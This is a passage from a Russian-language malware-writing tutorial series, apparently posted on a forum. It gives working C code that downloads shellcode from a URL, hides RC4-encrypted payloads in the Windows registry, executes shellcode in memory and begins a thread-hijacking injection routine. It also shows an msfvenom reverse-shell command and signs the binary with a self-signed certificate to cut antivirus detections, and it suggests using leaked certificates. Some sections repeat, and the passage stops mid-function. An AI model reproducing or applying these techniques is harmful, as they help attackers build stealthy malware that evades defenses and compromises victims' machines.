[in] DWORD dwNumberOfBytesToRead, // Количество байт для чтения
[out] LPDWORD lpdwNumberOfBytesRead // Указатель на переменную, которая получает количество прочитанных байт
);Перед вызовом функции необходимо выделить буфер для хранения payload. Для этого используется LocalAlloc для выделения буфера той же размерности, что и payload, 272 байта.
После выделения буфера можно использовать InternetReadFile для чтения payload. Функция требует указания количества байт для чтения, которое в данном случае равно 272.
C:
pBytes = (PBYTE)LocalAlloc(LPTR, 272);
InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)Закрытие дескриптора интернета
Для закрытия дескриптора интернета используется InternetCloseHandle.
Это следует вызвать после успешного получения payload.
C:
BOOL InternetCloseHandle(
[in] HINTERNET hInternet // Дескриптор, открытый с помощью InternetOpenW и InternetOpenUrlW
);Закрытие соединений HTTP/S
Важно знать, что WinAPI InternetCloseHandle не закрывает соединение HTTP/S. WinInet пытается повторно использовать соединения, и, следовательно, несмотря на закрытие дескриптора, соединение остается активным. Закрытие соединения важно для снижения возможности обнаружения. Например, создан бинарный файл, который извлекает payload с GitHub.
На изображении ниже показано, что бинарный файл все еще подключен к GitHub, несмотря на то, что выполнение бинарного файла завершено.
К счастью, решение простое. Всё, что требуется — это указать WinInet закрыть все соединения с использованием API InternetSetOptionW.
Вызов InternetSetOptionW с флагом INTERNET_OPTION_SETTINGS_CHANGED заставит систему обновить кэшированную версию её интернет-настроек, что в конечном итоге приведет к закрытию сохраненных WinInet соединений.
C:
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);Извлечение Payload - Фрагмент кода
Функция GetPayloadFromUrl использует вышеупомянутые шаги для извлечения payload с удаленного сервера и сохраняет его в буфере.
C:
BOOL GetPayloadFromUrl() {
HINTERNET hInternet = NULL,
hInternetFile = NULL;
PBYTE pBytes = NULL;
DWORD dwBytesRead = NULL;
// Открытие дескриптора сеанса интернета
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL) {
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Открытие дескриптора для URL payload
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL) {
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Выделение буфера для payload
pBytes = (PBYTE)LocalAlloc(LPTR, 272);
// Чтение payload
if (!InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
return FALSE;
}
InternetCloseHandle(hInternet);
InternetCloseHandle(hInternetFile);
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
LocalFree(pBytes);
return TRUE;
}Динамическое выделение размера Payload
Вышеуказанная реализация работает, когда размер payload известен. Если размер неизвестен или больше количества байт, указанного в InternetReadFile, может возникнуть переполнение кучи, что приведет к аварийному завершению работы программы.
Один из способов решения этой проблемы заключается в том, чтобы поместить InternetReadFile в цикл while и продолжать читать постоянное количество байт, которое, в данном примере, равно 1024 байта.
Байты сохраняются непосредственно во временном буфере, который имеет тот же размер, 1024 байта. Временный буфер добавляется к общему буферу, который будет непрерывно перераспределяться, чтобы вмещать каждый новый фрагмент размером 1024 байта, считанный с сервера.
Как только InternetReadFile прочитает значение, которое меньше 1024, это будет индикатором достижения конца файла, и цикл завершится.
C:
BOOL GetPayloadFromUrl() {
HINTERNET hInternet = NULL,
hInternetFile = NULL;
DWORD dwBytesRead = NULL;
SIZE_T sSize = NULL; // Используется в качестве общего размера payload
PBYTE pBytes = NULL; // Используется в качестве общего буфера payload
PBYTE pTmpBytes = NULL; // Используется как временный буфер размером 1024 байта
// Открытие дескриптора сеанса интернета
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL) {
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Открытие дескриптора для URL payload
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL) {
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Выделение 1024 байтов для временного буфера
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
if (pTmpBytes == NULL) {
return FALSE;
}
while (TRUE) {
// Чтение 1024 байтов во временный буфер
// InternetReadFile будет читать меньше байт в случае, если последний фрагмент меньше 1024 байтов
if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Обновление размера общего буфера
sSize += dwBytesRead;
// В случае, если общий буфер еще не выделен
// затем выделите его в размере считанных байтов, так как они могут быть меньше 1024 байтов
if (pBytes == NULL)
pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
else
// В противном случае, перераспределите pBytes равным общему размеру, sSize.
// Это необходимо для размещения всего payload
pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
if (pBytes == NULL) {
return FALSE;
}
// Добавить временный буфер в конец общего буфера
memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
// Очистите временный буфер
memset(pTmpBytes, '\0', dwBytesRead);
// Если было прочитано меньше 1024 байтов, это означает, что достигнут конец файла
// Следовательно, выйти из цикла
if (dwBytesRead < 1024) {
break;
}
// В противном случае, читайте следующие 1024 байта
}
// Завершение работы
InternetCloseHandle(hInternet);
InternetCloseHandle(hInternetFile);
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
LocalFree(pTmpBytes);
LocalFree(pBytes);
return TRUE;
}Финальный фрагмент кода для размещения Payload
Теперь функция GetPayloadFromUrl принимает 3 параметра:
- szUrl - URL-адрес payload.
- pPayloadBytes - возвращает базовый адрес буфера, содержащего payload.
- sPayloadSize - общий размер прочитанного payload.
C:
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
BOOL bSTATE = TRUE;
HINTERNET hInternet = NULL,
hInternetFile = NULL;
DWORD dwBytesRead = NULL;
SIZE_T sSize = NULL;
PBYTE pBytes = NULL,
pTmpByte = NULL;
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL){
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL){
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
if (pTmpBytes == NULL){
bSTATE = FALSE; goto _EndOfFunction;
}
while (TRUE){
if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
sSize += dwBytesRead;
if (pBytes == NULL)
pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
else
pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
if (pBytes == NULL) {
bSTATE = FALSE; goto _EndOfFunction;
}
memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
memset(pTmpBytes, '\0', dwBytesRead);
if (dwBytesRead < 1024){
break;
}
}
*pPayloadBytes = pBytes;
*sPayloadSize = sSize;
_EndOfFunction:
if (hInternet)
InternetCloseHandle(hInternet);
if (hInternetFile)
InternetCloseHandle(hInternetFile);
if (hInternet)
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
if (pTmpBytes)
LocalFree(pTmpBytes);
return bSTATE;
}Примечание к реализации
В этой статье payload извлекается из интернета в виде сырых двоичных данных, без шифрования или обфускации.
Хотя такой подход может обойти базовые меры безопасности, которые анализируют двоичный код на наличие признаков вредоносной деятельности, но его могут пометить сетевые сканирующие утилиты.
Таким образом, если payload не зашифрован, захваченные пакеты во время передачи могут содержать узнаваемые фрагменты payload.
Это может раскрыть сигнатуру payload, что приведет к тому, что процесс внедрения будет помечен.
В реальных условиях всегда рекомендуется шифровать или обфусцировать payload, даже если он извлекается во время выполнения.
Запуск финального бинарного файла
Бинарный файл успешно извлекает payload.
Соединения закрываются после завершения выполнения.
Прячем Payload в реестре
В общем из предыдущих уроков мы с вами знаем, что payload не обязательно должен храниться внутри вредоносной программы.
Вместо этого payload может быть получен во время выполнения вредоносной программы. В этой статье будет показана похожая техника, только payload будет записан в качестве значения ключа реестра и извлечен из реестра при необходимости.
Так как payload будет храниться в реестре, при сканировании вредоносной программы системами безопасности они не смогут обнаружить или найти payload внутри.
Код в этой статье разделен на две части. Первая часть записывает зашифрованный payload в ключ реестра. Вторая часть считывает payload из того же ключа реестра, расшифровывает его и выполняет.
В статье не будет объясняться процесс шифрования/расшифрования, так как это было объяснено в предыдущих уроках.
Также мы будем использовать условную компиляцию
Условная Компиляция
Условная компиляция - это способ включать код в проект, который компилятор либо будет компилировать, либо не будет.
Две ниже приведенные секции предоставляют базовый код, для понимания как будут написаны операции чтения и записи с использованием условной компиляции.
Операция записи
Операция чтения
Запись в реестр
Этот раздел расскажет о функции WriteShellcodeToRegistry. Функция принимает два параметра:
pShellcode - Payload для записи.
dwShellcodeSize - Размер записываемого payload.
REGISTRY & REGSTRING
Код начинается с двух предопределенных констант REGISTRY и REGSTRING, которые устанавливаются на Control Panel и Ru-SferaPW соответственно.
REGISTRY - это имя ключа реестра, который будет содержать payload.
Полный путь REGISTRY будет такой Computer\HKEY_CURRENT_USER\Control Panel.
То, что функция будет делать программно, - это создание нового значения строки под этим ключом реестра для хранения payload.
REGSTRING — это имя создаваемого значения строки. Очевидно, что в реальной ситуации стоит использовать более реалистичное значение, такое как PanelUpdateService или AppSnapshot.
Открытие дескриптора для ключа реестра
Используется WinAPI функция RegOpenKeyExA для открытия дескриптора к указанному ключу реестра. Это необходимо для создания, редактирования или удаления значений в ключе реестра.
Функция RegOpenKeyExA:
Четвертый параметр RegOpenKeyExA определяет права доступа к ключу реестра. Так как программа должна создать значение в ключе реестра, выбрано KEY_SET_VALUE. Полный список прав доступа к реестру можно найти в документации Microsoft.
Установка значения реестра
Далее используется функция WinAPI RegSetValueExA, которая принимает открытый дескриптор из RegOpenKeyExA и создает новое значение на основе второго параметра, REGSTRING. Она также записывает payload в только что созданное значение.
Функция RegSetValueExA:
Также стоит отметить, что четвертый параметр определяет тип данных для значения реестра. В этом случае он установлен на REG_BINARY, так как payload представляет собой просто список байтов. Полный список типов данных можно найти в документации Microsoft.
Закрытие дескриптора ключа реестра
Наконец, используется RegCloseKey для закрытия дескриптора ключа реестра, который был открыт.
Функция RegCloseKey:
Запись в реестр
Чтение из реестра
Теперь, когда payload записан в строковое значение RuSferaPw внутри ключа реестра Computer\HKEY_CURRENT_USER\Control Panel, пришло время написать другую реализацию, которая будет считывать это значение в реестре и запускать PayLoad.
Этот раздел расскажет о функции ReadShellcodeFromRegistry (показанной ниже).
Функция принимает два параметра:
sPayloadSize - Размер payload, который нужно прочитать.
ppPayload - Буфер, в котором будет храниться полученный payload.
Выделение памяти
Функция начинает с выделения памяти размером sPayloadSize, в которой будет храниться payload.
Чтение значения из реестра
Функция RegGetValueA требует указания ключа реестра и значения, которое нужно прочитать, которыми являются REGISTRY и REGSTRING соответственно.
В предыдущей статье можно было получать payload из интернета в нескольких частях любого размера, однако при работе с RegGetValueA это невозможно, так как функция не читает байты как поток данных, а скорее целиком.
Все это означает, что знание размера payload является обязательным при реализации чтения.
Четвертый параметр может быть использован для ограничения типа данных, однако эта реализация использует RRF_RT_ANY, что означает любой тип данных. В качестве альтернативы можно было бы использовать RRF_RT_REG_BINARY, так как payload представляет собой двоичные данные. Наконец, payload считывается в pBytes, который был ранее выделен с использованием HeapAlloc.
Исполнение Payload
После того как payload прочитан из реестра и сохранен в выделенном буфере, используется функция RunShellcode для его исполнения. Обратите внимание, что эта функция была описана в предыдущих модулях.
Запись в реестр - Демо
До запуска скомпилированного кода, показанного выше, ключ реестра выглядит следующим образом:
После запуска программы создается новое строковое значение реестра с payload, зашифрованным с помощью RC4.
Чтение из реестра - Демо
Программа начинает с чтения зашифрованного payload из реестра.
Далее программа будет расшифровывать payload.
И, наконец, расшифрованный payload исполняется.
Вместо этого payload может быть получен во время выполнения вредоносной программы. В этой статье будет показана похожая техника, только payload будет записан в качестве значения ключа реестра и извлечен из реестра при необходимости.
Так как payload будет храниться в реестре, при сканировании вредоносной программы системами безопасности они не смогут обнаружить или найти payload внутри.
Код в этой статье разделен на две части. Первая часть записывает зашифрованный payload в ключ реестра. Вторая часть считывает payload из того же ключа реестра, расшифровывает его и выполняет.
В статье не будет объясняться процесс шифрования/расшифрования, так как это было объяснено в предыдущих уроках.
Также мы будем использовать условную компиляцию
Условная Компиляция
Условная компиляция - это способ включать код в проект, который компилятор либо будет компилировать, либо не будет.
Две ниже приведенные секции предоставляют базовый код, для понимания как будут написаны операции чтения и записи с использованием условной компиляции.
Операция записи
C:
#define WRITEMODE // Код, который будет скомпилирован в случае если нужно записать данные в реестр
// если определено 'WRITEMODE'
#ifdef WRITEMODE
// Код, необходимый для записи payload в реестр
#endif
#ifdef READMODE // Код, который НЕ будет скомпилирован
#endifОперация чтения
C:
#define READMODE // Код, который будет скомпилирован в случае если нужно считать данные из реестра
// если определено 'READMODE'
#ifdef READMODE
// Код, необходимый для чтения payload из реестра
#endif
#ifdef WRITEMODE // Код, который НЕ будет скомпилирован
#endifЗапись в реестр
Этот раздел расскажет о функции WriteShellcodeToRegistry. Функция принимает два параметра:
pShellcode - Payload для записи.
dwShellcodeSize - Размер записываемого payload.
REGISTRY & REGSTRING
Код начинается с двух предопределенных констант REGISTRY и REGSTRING, которые устанавливаются на Control Panel и Ru-SferaPW соответственно.
C:
// Ключ реестра для чтения/записи
#define REGISTRY "Control Panel"
#define REGSTRING "RuSferaPW"REGISTRY - это имя ключа реестра, который будет содержать payload.
Полный путь REGISTRY будет такой Computer\HKEY_CURRENT_USER\Control Panel.
То, что функция будет делать программно, - это создание нового значения строки под этим ключом реестра для хранения payload.
REGSTRING — это имя создаваемого значения строки. Очевидно, что в реальной ситуации стоит использовать более реалистичное значение, такое как PanelUpdateService или AppSnapshot.
Открытие дескриптора для ключа реестра
Используется WinAPI функция RegOpenKeyExA для открытия дескриптора к указанному ключу реестра. Это необходимо для создания, редактирования или удаления значений в ключе реестра.
Функция RegOpenKeyExA:
C:
LSTATUS RegOpenKeyExA(
[in] HKEY hKey, // Дескриптор открытого ключа реестра
[in, optional] LPCSTR lpSubKey, // Имя открываемого подключа реестра (константа REGISTRY)
[in] DWORD ulOptions, // Опции при открытии ключа - Установлено в 0
[in] REGSAM samDesired, // Права доступа
[out] PHKEY phkResult // Указатель на переменную, которая получает дескриптор открытого ключа
);Четвертый параметр RegOpenKeyExA определяет права доступа к ключу реестра. Так как программа должна создать значение в ключе реестра, выбрано KEY_SET_VALUE. Полный список прав доступа к реестру можно найти в документации Microsoft.
C:
STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);Установка значения реестра
Далее используется функция WinAPI RegSetValueExA, которая принимает открытый дескриптор из RegOpenKeyExA и создает новое значение на основе второго параметра, REGSTRING. Она также записывает payload в только что созданное значение.
Функция RegSetValueExA:
C:
LSTATUS RegSetValueExA(
[in] HKEY hKey, // Дескриптор открытого ключа реестра
[in, optional] LPCSTR lpValueName, // Имя устанавливаемого значения (константа REGSTRING)
DWORD Reserved, // Установлено в 0
[in] DWORD dwType, // Тип данных, на который указывает параметр lpData
[in] const BYTE *lpData, // Данные для сохранения
[in] DWORD cbData // Размер информации, на которую указывает параметр lpData, в байтах
);Также стоит отметить, что четвертый параметр определяет тип данных для значения реестра. В этом случае он установлен на REG_BINARY, так как payload представляет собой просто список байтов. Полный список типов данных можно найти в документации Microsoft.
C:
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);Закрытие дескриптора ключа реестра
Наконец, используется RegCloseKey для закрытия дескриптора ключа реестра, который был открыт.
Функция RegCloseKey:
C:
LSTATUS RegCloseKey(
[in] HKEY hKey // Дескриптор открытого ключа реестра, который будет закрыт
);Запись в реестр
C:
BOOL WriteShellcodeToRegistry(IN PBYTE pShellcode, IN DWORD dwShellcodeSize) {
BOOL bSTATE = TRUE;
LSTATUS STATUS = NULL;
HKEY hKey = NULL;
printf("[i] Запись 0x%p [ Размер: %ld ] в \"%s\\%s\" ... ", pShellcode, dwShellcodeSize, REGISTRY, REGSTRING);
STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);
if (ERROR_SUCCESS != STATUS) {
printf("[!] Ошибка при открытии ключа RegOpenKeyExA: %d\n", STATUS);
bSTATE = FALSE; goto _EndOfFunction;
}
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);
if (ERROR_SUCCESS != STATUS){
printf("[!] Ошибка при записи RegSetValueExA: %d\n", STATUS);
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[+] Готово ! \n");
_EndOfFunction:
if (hKey)
RegCloseKey(hKey);
return bSTATE;
}Чтение из реестра
Теперь, когда payload записан в строковое значение RuSferaPw внутри ключа реестра Computer\HKEY_CURRENT_USER\Control Panel, пришло время написать другую реализацию, которая будет считывать это значение в реестре и запускать PayLoad.
Этот раздел расскажет о функции ReadShellcodeFromRegistry (показанной ниже).
Функция принимает два параметра:
sPayloadSize - Размер payload, который нужно прочитать.
ppPayload - Буфер, в котором будет храниться полученный payload.
Выделение памяти
Функция начинает с выделения памяти размером sPayloadSize, в которой будет храниться payload.
C:
pBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sPayloadSize);Чтение значения из реестра
Функция RegGetValueA требует указания ключа реестра и значения, которое нужно прочитать, которыми являются REGISTRY и REGSTRING соответственно.
В предыдущей статье можно было получать payload из интернета в нескольких частях любого размера, однако при работе с RegGetValueA это невозможно, так как функция не читает байты как поток данных, а скорее целиком.
Все это означает, что знание размера payload является обязательным при реализации чтения.
C:
LSTATUS RegGetValueA(
[in] HKEY hkey, // Дескриптор открытого ключа реестра
[in, optional] LPCSTR lpSubKey, // Путь к ключу реестра относительно ключа, указанного в параметре hkey
[in, optional] LPCSTR lpValue, // Имя значения в реестре
[in, optional] DWORD dwFlags, // Флаги, которые ограничивают тип данных значения, которое будет запрошено
[out, optional] LPDWORD pdwType, // Указатель на переменную, которая получит код, указывающий тип данных, сохраненных в указанном значении
[out, optional] PVOID pvData, // Указатель на буфер, который получит данные значения
[in, out, optional] LPDWORD pcbData // Указатель на переменную, которая определяет размер буфера, на который указывает параметр pvData, в байтах
);Четвертый параметр может быть использован для ограничения типа данных, однако эта реализация использует RRF_RT_ANY, что означает любой тип данных. В качестве альтернативы можно было бы использовать RRF_RT_REG_BINARY, так как payload представляет собой двоичные данные. Наконец, payload считывается в pBytes, который был ранее выделен с использованием HeapAlloc.
C:
STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);Исполнение Payload
После того как payload прочитан из реестра и сохранен в выделенном буфере, используется функция RunShellcode для его исполнения. Обратите внимание, что эта функция была описана в предыдущих модулях.
C:
BOOL RunShellcode(IN PVOID pDecryptedShellcode, IN SIZE_T sDecryptedShellcodeSize) {
PVOID pShellcodeAddress = NULL;
DWORD dwOldProtection = NULL;
// Выделение виртуальной памяти для исполняемого payload
pShellcodeAddress = VirtualAlloc(NULL, sDecryptedShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pShellcodeAddress == NULL) {
printf("[!] Ошибка при выделении памяти VirtualAlloc: %d \n", GetLastError());
return FALSE;
}
printf("[i] Выделенная память по адресу: 0x%p \n", pShellcodeAddress);
// Копирование расшифрованного payload в выделенный адрес
memcpy(pShellcodeAddress, pDecryptedShellcode, sDecryptedShellcodeSize);
// Обнуление исходного расшифрованного payload
memset(pDecryptedShellcode, '\0', sDecryptedShellcodeSize);
// Изменение прав доступа к памяти для обеспечения возможности выполнения
if (!VirtualProtect(pShellcodeAddress, sDecryptedShellcodeSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] Ошибка при изменении прав доступа VirtualProtect: %d \n", GetLastError());
return FALSE;
}
printf("[#] Нажмите <Enter>, чтобы запустить ... ");
getchar();
// Создание потока для исполнения payload
if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
printf("[!] Ошибка при создании потока CreateThread: %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Запись в реестр - Демо
До запуска скомпилированного кода, показанного выше, ключ реестра выглядит следующим образом:
После запуска программы создается новое строковое значение реестра с payload, зашифрованным с помощью RC4.
Чтение из реестра - Демо
Программа начинает с чтения зашифрованного payload из реестра.
Далее программа будет расшифровывать payload.
И, наконец, расшифрованный payload исполняется.
Разборка с цифровой подписью зверька
Когда пользователь пытается загрузить исполняемый файл из интернета, он часто подписан компанией как способ доказать пользователю, что это надежный исполняемый файл.
Несмотря на то что системы безопасности все равно будут проверять исполняемый файл, на него была бы направлена дополнительная проверка, если бы бинарный файл не был подписан.
Предлагаю рассмотреть шаги, необходимые для подписания вредоносного бинарного файла, что может повысить его надежность.
В статье демонстрируется подписание бинарного файла на исполняемом файле, созданном через Msfvenom: msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o mybin.exe
Тест, как подпись влияет на детект:
Перед началом бинарный файл был загружен на VirusTotal, чтобы увидеть степень обнаружения до подписания бинарного файла.
Степень обнаружения довольно высока: 52 из 71 антивирусов отметили файл как вредоносный.
Значение подписи для Безопасности
Подпись кода важно, потому что оно предоставляет дополнительный уровень доверия к исходному коду. Однако это также может быть использовано злоумышленниками для обхода систем безопасности и обмана пользователей. Инструменты, такие как Msfvenom, позволяют создавать вредоносные бинарные файлы, которые затем могут быть подписаны, чтобы уменьшить вероятность их обнаружения.
Несмотря на это, организации и пользователи должны оставаться настороже и не полагаться исключительно на подписи для верификации надежности файла.
Получение Сертификата
Существует несколько способов получения сертификата:
- Самый предпочтительный способ - приобрести сертификат у доверенного поставщика, такого как DigiCert.
- Еще одна возможность - использовать самоподписанный сертификат. Хотя это не будет таким эффективным, как сертификат от доверенного центра, в статье далее будет показано, что это все равно может оказать влияние на частоту обнаружения.
- Последний вариант - найти действительные сертификаты, которые утекли в интернете (например, на Github).
Попробуем сами подписать свой бинарник и глянем что будет.)
Для этого потребуется openssl, который предустановлен в Kali Linux.
Команда для создания сертификата:
Код:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365После выполнения команды, система попросит вас предоставить детали для создания сертификата, такие как страна, организация и так далее. После завершения этого процесса у вас будет готов сертификат и соответствующий ему закрытый ключ.
Далее, генерируем файл pfx, используя файлы pem. Инструмент потребует ввода ключевой фразы.
Код:
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfxПри выполнении этой команды вам будет предложено ввести пароль для закрытого ключа (если вы установили его ранее) и затем задать пароль для нового файла pfx. Этот пароль потребуется в дальнейшем, когда вы будете использовать файл pfx для подписи исполняемых файлов или других целей.
Файл PFX (также известный как PKCS #12) комбинирует сертификат и соответствующий ему закрытый ключ в один файл, который может быть использован для импорта и экспорта между системами или для безопасного хранения.
Подписание Бинарного Файла
Для подписи бинарного файла требуется утилита signtool.exe, которая является частью Windows SDK. Ее можно установить [здесь].
После установки бинарный файл можно подписать с помощью указанной ниже команды.
Код:
signtool sign /f sign.pfx /p <pfx-password> /t http://timestamp.digicert.com /fd sha256 binary.exeПросмотр свойств бинарного файла теперь будет показывать вкладку "Цифровая подпись", на которой отображаются детали сертификата, используемого для подписи бинарного файла. Также будет показано предупреждение о том, что сертификат не доверен.
Примечание: Самоподписанный сертификат, очевидно, не будет иметь доверия на большинстве систем. Если вам нужно доверие к вашему сертификату, вам следует приобрести его у аккредитованного удостоверяющего центра. Подпись бинарного файла, даже самоподписанным сертификатом, может снизить вероятность его обнаружения некоторыми антивирусами, но все же это не гарантирует полное доверие к файлу.
Тестирование степени обнаружения подписанного бинарного файла
Бинарный файл был загружен обратно на VirusTotal, чтобы проверить, оказало ли подписание влияние на степень обнаружения. Как можно было ожидать, количество систем безопасности, которые отметили файл как вредоносный, сократилось с 52 до 47. На первый взгляд это может не показаться значительным уменьшением, но следует подчеркнуть, что к файлу не были внесены никакие изменения, кроме его подписи сертификатом.
Вывод:
Подписание бинарного файла действительно может влиять на его обнаружение системами безопасности. Это подчеркивает важность управления и контроля над использованием сертификатов, а также необходимость для компаний и пользователей оставаться настороже даже в отношении подписанных файлов. На практике подписание может использоваться злоумышленниками как один из методов уменьшения вероятности обнаружения их вредоносного ПО.
Изучаем технику Thread Hijacking
Thread Hijacking (Похищение потока) - это техника, позволяющая выполнять полезную нагрузку без создания нового потока. Этот метод работает путем приостановки потока и обновления регистра адреса команды, указывающего на следующую инструкцию в памяти, чтобы он указывал на начало полезной нагрузки. Когда поток возобновляет выполнение, выполняется полезная нагрузка.
В этой статье будем использовать Msfvenom TCP reverse shell payload, а не полезную нагрузку calc., потому что она сохраняет поток после выполнения, тогда как полезная нагрузка calc завершила бы поток после выполнения.
Тем не менее, обе полезные нагрузки работают, но сохранение потока после выполнения позволяет проводить дальнейший анализ.
Контекст Потока
Прежде чем можно объяснить эту технику, необходимо понять что такое контекст потока. У каждого потока есть приоритет планирования и он содержит ряд структур, которые система сохраняет в контексте потока. Контекст потока включает всю информацию, необходимую потоку для бесперебойного выполнения, включая набор регистров ЦПУ потока и стек.
GetThreadContext и SetThreadContext - это два WinAPI, которые можно использовать для получения и установки контекста потока соответственно.
GetThreadContext заполняет структуру CONTEXT, которая содержит всю информацию о потоке. В то время как SetThreadContext принимает заполненную структуру CONTEXT и устанавливает ее для указанного потока.
Эти два WinAPI играют ключевую роль в похищении потока, поэтому было бы полезно изучить WinAPI и связанные с ними параметры.
Похищение Потока vs Создание Потока
Первый вопрос, который нужно решить: почему похищать созданный поток для выполнения полезной нагрузки, а не выполнять полезную нагрузку, используя новый созданный поток?
Основное различие - это видимость полезной нагрузки и скрытность.
Создание нового потока для выполнения полезной нагрузки раскроет базовый адрес полезной нагрузки и, следовательно, содержание полезной нагрузки, так как запись нового потока должна указывать на базовый адрес полезной нагрузки в памяти.
Это не так при похищении потока, потому что запись потока будет указывать на обычную функцию процесса, и поток будет выглядеть безобидно.
Шаги Похищения Локального Потока
В этом разделе описываются необходимые шаги для выполнения похищения потока, созданного в локальном процессе.
Стоит отметить, что невозможно похитить главный поток локального процесса, потому что целевой поток сначала должен быть переведен в приостановленное состояние. Это проблематично при нацеливании на главный поток, так как именно он выполняет код и не может быть приостановлен. Поэтому не стоит нацеливаться на главный поток при выполнении похищения локального потока.
Сначала будет вызвана CreateThread для создания потока и установки безвредной функции в качестве записи потока. Затем дескриптор потока будет использоваться для выполнения необходимых шагов, чтобы похитить поток и выполнить полезную нагрузку.
Изменение Контекста Потока
Следующим шагом является получение контекста потока с целью его изменения и указания на полезную нагрузку. Когда поток возобновляет выполнение, выполняется полезная нагрузка.
Как было упомянуто ранее, GetThreadContext будет использоваться для получения структуры CONTEXT целевого потока. Некоторые значения структуры будут изменены, чтобы изменить контекст текущего потока с помощью SetThreadContext.
Значения, которые меняются в структуре, решают, что поток будет выполнять далее. Это значения регистров RIP (для 64-битных процессоров) или EIP (для 32-битных процессоров).
Регистры RIP и EIP, также известные как регистры указателей инструкций, указывают на следующую инструкцию для выполнения. Они обновляются после каждой выполненной инструкции.
Пример функции похищения потока RunViaClassicThreadHijacking - это специально созданная функция, которая выполняет похищение потока.
Функция требует 3 аргумента:
hThread - Дескриптор приостановленного потока, который будет похищен.
pPayload - Указатель на базовый адрес полезной нагрузки.
sPayloadSize - Размер полезной нагрузки.
C:
BOOL RunViaClassicThreadHijacking(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
PVOID pAddress = NULL;
DWORD dwOldProtection = NULL;
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_CONTROL
};
// Allocating memory for the payload
pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL){
printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Copying the payload to the allocated memory
memcpy(pAddress, pPayload, sPayloadSize);
// Changing the memory protection
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the original thread context
if (!GetThreadContext(hThread, &ThreadCtx)){
printf("[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Updating the next instruction pointer to be equal to the payload's address
ThreadCtx.Rip = pAddress;
// Updating the new thread context
if (!SetThreadContext(hThread, &ThreadCtx)) {
